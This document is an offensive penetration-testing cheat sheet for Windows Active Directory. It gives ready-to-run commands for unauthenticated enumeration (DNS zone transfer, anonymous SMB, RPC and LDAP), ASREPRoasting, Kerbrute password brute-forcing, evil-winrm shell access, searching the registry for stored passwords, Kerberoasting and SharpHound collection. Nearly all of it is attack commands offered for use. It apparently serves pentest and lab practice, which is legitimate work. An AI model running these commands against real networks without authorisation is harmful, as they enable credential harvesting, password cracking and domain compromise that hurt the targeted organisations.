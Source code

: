 # Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server -N
	
### Anonymous RPC

	rpcclient -U "" -N <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
### kerbrute

If all else fails, try to brute force the users you gathered.  You can always try usernames as passwords
https://github.com/TarlogicSecurity/kerbrute

	kerbrute.py -users users.txt -passwords users.txt -domain <domain> -dc-ip <IP>
	
## Enumeration with credentials or post initial shell

### Shell

If WinRM is listening and exposed

	evil-winrm -u <username> -p <password> -i <host or IP>
	
### Get groups and privs

	whoami /all
	
### Passwords in registry

	reg query HKLM /f password /t REG_SZ /s
	
### Your favorite priv escalation script

	https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat
	
### Kerberos

#### Kerberoasting

	GetUserSPNs.py domain.name/user:password -outputfile kerbroast.txt
	
#### Bloodhound

Use WinRM, meterpreter, etc. to upload SharpHound.ps1

	.\SharpHound.ps1 -CollectionMethod all
	
Download the zip file and import into Bloodhound and go from there.
